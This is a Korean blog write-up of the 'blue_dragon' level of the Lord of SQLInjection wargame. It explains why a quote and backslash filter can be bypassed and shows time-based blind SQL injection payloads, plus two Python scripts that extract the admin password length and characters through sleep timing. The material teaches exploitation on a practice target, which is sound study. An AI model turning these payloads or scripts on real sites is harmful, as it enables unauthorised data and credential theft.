 ```yaml
---
layout: single
title: "[Lord of SQLInjection] blue_dragon write-up"
date: 2025-05-05 15:50 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## Lord of SQLInjection (blue_dragon)

### 풀이

이번 문제에서는 id와 pw 파라미터에 각각 `prob _ .` 문자에 대해서 필터링하고 있고, 쿼리를 한 번 실행한 후에 파라미터를 다시 검사해서 싱글쿼터랑 역슬래쉬가 있으면 No Hack을 출력한다. 또한 admin 계정의 pw 값을 알아내야 solve인 것이다.

![image-20250505155137390](/images/2025-05-05-los-blue_dragon/image-20250505155137390.png)

<br>

아래처럼 싱글쿼터랑 역슬래쉬 중 하나만 들어가면 쿼리는 출력되지만 result 결과가 출력되지 않고, No Hack이 출력된다.

![image-20250505160712166](/images/2025-05-05-los-blue_dragon/image-20250505160712166.png)

<br>

싱글쿼터랑 역슬래쉬를 필터링 해서 No Hack이 출력된다고 해도, sleep을 이용해서 time based sqli를 아래 쿼리를 id 파라미터에 넣어보면 가능하다는 것을 알 수 있다. if 함수에 대해서 두 번째 인자가 참일 때이고, 세 번째 인자가 거짓일 때이니가 이것만 수정해서 코드를 짜면 되겠다.

```
' or if(id='admin' and length(pw)=1, sleep(5), sleep(5))-- -
' or if(id='admin' and length(pw)=1, sleep(5), 0)-- -
```

<br>

아래처럼 파이썬 코드를 짜보면 패스워드 길이가 8인 것을 알 수 있다.

```python
import requests
import time

url = 'https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php'
cookie = {
    "PHPSESSID": "d5fo2u0cj07ikqrk2qftquavbd"
}

for i in range(1, 100):
    param = {
        "id": f"' or if(id='admin' and length(pw)={i}, sleep(5), 0)-- -"
    }
    start_time = time.time()
    print(start_time)
    r = requests.get(url=url, cookies=cookie, params=param)
    end_time = time.time()
    delay = end_time - start_time
    print(f"delay: {delay}")
    if delay > 3:
        print(f"found! 패스워드 길이는 {i}입니다.")
        break
```

<img src="/images/2025-05-05-los-blue_dragon/image-20250505162122973.png" alt="image-20250505162122973" style="zoom: 50%;" />

<br>

그럼 이제 ascii(substr)을 사용해서 pw 첫 글자를 하나씩 time based sqli를 수행하는 코드를 짜주면 되겠다.

```python
import requests
import time
1
url = 'https://los.rubiya.kr/chall/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php'
cookie = {
    "PHPSESSID": "d5fo2u0cj07ikqrk2qftquavbd"
}
password = ''

for i in range(1, 9):
    for j in range(32, 127):    
        param = {
            "id": f"' or if(id='admin' and ascii(substr(pw,{i},1))={j}, sleep(5), 0)-- -"
        }
        start_time = time.time()
        #print(start_time)
        r = requests.get(url=url, cookies=cookie, params=param)
        end_time = time.time()
        delay = end_time - start_time
        #print(f"delay: {delay}")
        if delay > 3:
            print(f"found! 패스워드 {i}번째 문자는 {chr(j)}입니다.")
            password += chr(j)
            break
print(password)
```

![image-20250505162716826](/images/2025-05-05-los-blue_dragon/image-20250505162716826.png)
